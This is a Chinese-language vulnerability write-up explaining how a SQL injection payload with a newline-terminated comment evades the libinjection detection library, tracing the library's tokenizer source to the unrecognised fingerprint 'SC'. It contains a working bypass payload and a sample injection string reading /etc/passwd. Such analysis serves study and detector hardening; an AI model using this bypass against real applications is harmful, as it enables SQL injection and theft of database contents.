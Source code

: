 Libinjection 语义分析通用绕过
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

源码下载地址 `https://github.com/client9/libinjection`

> example.c

    #include <stdio.h>
    #include <strings.h>
    #include <errno.h>
    #include "libinjection.h"
    #include "libinjection_sqli.h"

    int main(int argc, const char* argv[])
    {
        struct libinjection_sqli_state state;
        int issqli;

        const char* input = argv[1];
        size_t slen = strlen(input);

        /* in real-world, you would url-decode the input, etc */

        libinjection_sqli_init(&state, input, slen, FLAG_NONE);
        issqli = libinjection_is_sqli(&state);
        if (issqli) {
            fprintf(stderr, "sqli detected with fingerprint of '%s'\n", state.fingerprint);
        }
        return issqli;
    }
    $ gcc -Wall -Wextra examples.c libinjection_sqli.c
    $ ./a.out "-1' and 1=1 union/* foo */select load_file('/etc/passwd')--"
    sqli detected with fingerprint of 's&1UE'

**首先给一个pyload**

    # ./bin "ad1n'-- %a%0aunion select 1,database(),user() -- " 
    not sqli 
    #

测试payload 是否OK

![1.png](./.resource/Libinjection语义分析通用绕过/media/rId24.png)

为什么会这样呢???

首先打开源码吧

如果对这个语义分析不太了解的吧，可以去百度上可以找到很多分析的文章这里就不过多阐述了

下图是一个运行的一个流程图

![2.png](./.resource/Libinjection语义分析通用绕过/media/rId25.png)

### 它内部分为四种模式

    1. 无符号 标准SQL 模式 
    2. 无符号 MySQL模式 
    3. 单引号 标准SQL 模式 
    4. 单引号 MySQL 模式 
    5. 双引号 MySQL 模式

然后上面是一个单引号的标准SQL 的匹配他的一个核心点在于如下 函数libinjection\_sqli\_tokenize
作为一个转换内部字符的一个入口

    int libinjection_sqli_tokenize(struct libinjection_sqli_state * sf)
    {
        pt2Function fnptr;
        size_t *pos = &sf->pos;
        stoken_t *current = sf->current;
        const char *s = sf->s;
        const size_t slen = sf->slen;
        if (slen == 0) {
            return FALSE;
        }
    ​
        //初始化
        st_clear(current);
        sf->current = current;
    ​
        if (*pos == 0 && (sf->flags & (FLAG_QUOTE_SINGLE | FLAG_QUOTE_DOUBLE))) {
            *pos = parse_string_core(s, slen, 0, current, flag2delim(sf->flags), 0);
            printf("单引号双引号进入");
            sf->stats_tokens += 1;
            return TRUE;
        }
    ​
        while (*pos < slen) {
    ​
            /*
             * get current character
             */
            const unsigned char ch = (unsigned char) (s[*pos]);
            /*
             * look up the parser, and call it
             *
             * Porting Note: this is mapping of char to function
             *   charparsers[ch]()
             */
            fnptr = char_parse_map[ch];
            *pos = (*fnptr) (sf);
            if (current->type != CHAR_NULL) {
                sf->stats_tokens += 1;
                return TRUE;
            }
        }
        return FALSE;
    }

为什么`# "ad1n'-- %a%0aunion select 1,database(),user() -- "`
这么一个简单的可以绕过呢。

首先他是吧 `admi'` 先进入无符号的标准SQL 然后发现有一个\' 后面就转到
单引号的标准SQL

单引号标准SQL 首先获取的`admn'` 然后break

继续到了下一层碰到了一个 - 那么走到parse\_dash函数中

    static size_t parse_dash(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
    ​
        if (pos + 2 < slen && cs[pos + 1] == '-' && char_is_white(cs[pos+2]) ) {
            return parse_eol_comment(sf);
        } else if (pos +2 == slen && cs[pos + 1] == '-') {
            return parse_eol_comment(sf);
        } else if (pos + 1 < slen && cs[pos + 1] == '-' && (sf->flags & FLAG_SQL_ANSI)) {
            sf->stats_comment_ddx += 1;
            return parse_eol_comment(sf);
        } else {
            st_assign_char(sf->current, TYPE_OPERATOR, pos, 1, '-');
            return pos + 1;
        }
    }

然后当前的pos 一定是符合第一个判断条件的。继续跟踪parse\_eol\_comment
函数

    static size_t parse_eol_comment(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
        
        const char *endpos =(const char *) memchr((const void *) (cs + pos), '\n', slen - pos);
        if (endpos == NULL) {
            st_assign(sf->current, TYPE_COMMENT, pos, slen - pos, cs + pos);
            return slen;
        } else {
            st_assign(sf->current, TYPE_COMMENT, pos, (size_t)(endpos - cs) - pos, cs + pos);
            return (size_t)((endpos - cs) + 1);
        }
    }

这里只是判断了是否是有\\n 这个。然后就直接进入到st\_assign
函数中。继续跟踪st\_assign 函数

    static void st_assign(stoken_t * st, const char stype,size_t pos, size_t len, const char* value)
    {
        const size_t MSIZE = LIBINJECTION_SQLI_TOKEN_SIZE;
        size_t last = len < MSIZE ? len : (MSIZE - 1);
        st->type = (char) stype;
        st->pos = pos;
        st->len = last;
        memcpy(st->val, value, last);
        st->val[last] = CHAR_NULL;
    }

当前函数也是只是赋值了一下val然后就可以做任何操作。

最后就是 `admin'` 转换成了S

\-- 因为没有查询到直接是C

最后得到的匹配规则为SC 。此匹配规则不在数据库中。完成了绕过。

附一张调试打印图

![3.png](./.resource/Libinjection语义分析通用绕过/media/rId27.png)
